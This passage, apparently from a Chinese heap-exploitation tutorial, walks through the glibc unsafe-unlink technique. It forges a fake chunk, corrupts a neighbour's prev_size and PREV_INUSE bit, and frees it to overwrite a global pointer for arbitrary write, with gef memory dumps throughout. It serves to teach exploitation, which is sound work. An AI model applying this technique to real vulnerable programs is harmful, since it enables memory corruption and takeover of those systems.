 ```
gef➤  x/5gx 0x601058
0x601058:	0x0000000000000000	0x00007ffff7dd2540  <-- fake chunk FD
0x601068:	0x0000000000000000	0x0000000000602010      <-- bk pointer
0x601078:	0x0000000000000000
gef➤  x/5gx 0x601060
0x601060:	0x00007ffff7dd2540	0x0000000000000000  <-- fake chunk BK
0x601070:	0x0000000000602010	0x0000000000000000      <-- fd pointer
0x601080:	0x0000000000000000
```
可以看到，我们在 chunk0 里构造一个 fake chunk，用 P 表示，两个指针 fd 和 bk 可以构成两条链：`P->fd->bk == P`，`P->bk->fd == P`，可以绕过检查。另外利用 chunk0 的溢出漏洞，通过修改 chunk 1 的 `prev_size` 为 fake chunk 的大小，修改 `PREV_INUSE` 标志位为 0，将 fake chunk 伪造成一个 free chunk。

接下来就是释放掉 chunk1，这会触发 fake chunk 的 unlink 并覆盖 `chunk0_ptr` 的值。unlink 操作是这样进行的：
```c
FD = P->fd;
BK = P->bk;
FD->bk = BK
BK->fd = FD
```
根据 fd 和 bk 指针在 malloc_chunk 结构体中的位置，这段代码等价于：
```
FD = P->fd = &P - 24
BK = P->bk = &P - 16
FD->bk = *(&P - 24 + 24) = P
FD->fd = *(&P - 16 + 16) = P
```
这样就通过了 unlink 的检查，最终效果为：
```
FD->bk = P = BK = &P - 16
BK->fd = P = FD = &P - 24
```
原本指向堆上 fake chunk 的指针 P 指向了自身地址减 24 的位置，这就意味着如果程序功能允许堆 P 进行写入，就能改写 P 指针自身的地址，从而造成任意内存写入。若允许堆 P 进行读取，则会造成信息泄漏。

在这个例子中，由于 P->fd->bk 和 P->bk->fd 都指向 P，所以最后的结果为：
```
chunk0_ptr = P = P->fd
```
成功地修改了 chunk0_ptr，这时 `chunk0_ptr` 和 `chunk0_ptr[3]` 实际上就是同一东西。这里可能会有疑惑为什么这两个东西是一样的，因为 `chunk0_ptr` 指针在是放在数据段上的，地址在 `0x601070`，指向 `0x601058`，而 `chunk0_ptr[3]` 的意思是从 `chunk0_ptr` 指向的地方开始数 3 个单位，所以 `0x601058+0x08*3=0x601070`：
```
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000020ff1  <-- fake chunk P
0x602020:	0x0000000000601058	0x0000000000601060      <-- fd, bk pointer
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000080	0x0000000000000090  <-- chunk 1 [be freed]
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
gef➤  x/5gx 0x601058
0x601058:	0x0000000000000000	0x00007ffff7dd2540  <-- fake chunk FD
```